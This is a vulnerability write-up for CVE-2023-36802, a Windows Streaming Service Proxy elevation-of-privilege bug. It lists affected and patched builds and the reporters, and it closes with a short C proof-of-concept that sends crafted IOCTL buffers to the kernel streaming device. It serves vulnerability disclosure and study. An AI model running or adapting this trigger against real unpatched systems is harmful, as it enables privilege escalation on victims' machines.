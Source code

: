 # CVE-2023-36802: Microsoft Streaming Service Proxy Elevation of Privilege Vulnerability
*Benoît Sevens*

## The Basics

**Disclosure or Patch Date:** September 12, 2023

**Product:** Windows

**Advisory:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36802

**Affected Versions:**

* Windows 10 without KB5030211 or KB5030214
* Windows 11 without KB5030219 or KB5030217
* Windows Server 2019 without KB5030214
* Windows Server 2022 without KB5030216 or KB503025

**First Patched Version:**

* Windows 10 with KB5030211 or KB5030214
* Windows 11 with KB5030219 or KB5030217
* Windows Server 2019 with KB5030214
* Windows Server 2022 with KB5030216 or KB503025

**Issue/Bug Report:** N/A

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):**

* Guanghui Xia (@ze0r) with Hebei HuaCe
* Quan Jin (@jq0904) & ze0r with DBAPPSecurity WeBin Lab
* Valentina Palmiotti with IBM X-Force
* Microsoft Threat Intelligence
* Microsoft Security Response Center

## The Code

**Proof-of-concept:**

```
HANDLE h;
HRESULT hr;
DWORD bytesReturned;
char buf[0x100] = {0};

hr = KsOpenDefaultDevice(KSNAME_Server, GENERIC_READ | GENERIC_WRITE, &h);

memset(buf, 'A', sizeof(buf));
*(int32_t *)buf = 1;
*((int64_t *)buf + 3) = 0;
BOOL status = DeviceIoControl(h, IOCTL_FRAMESERVER_INIT_CONTEXT, &buf, sizeof(buf), &buf, sizeof(buf), &bytesReturned, 0);

memset(buf, 'A', sizeof(buf));
*((DWORD*)buf + 8) = 1;
*((DWORD*)buf + 9) = 1;
status = DeviceIoControl(h, IOCTL_FRAMESERVER_PUBLISH_RX, &buf, sizeof(buf), &buf, sizeof(buf), &bytesReturned, 0);
```
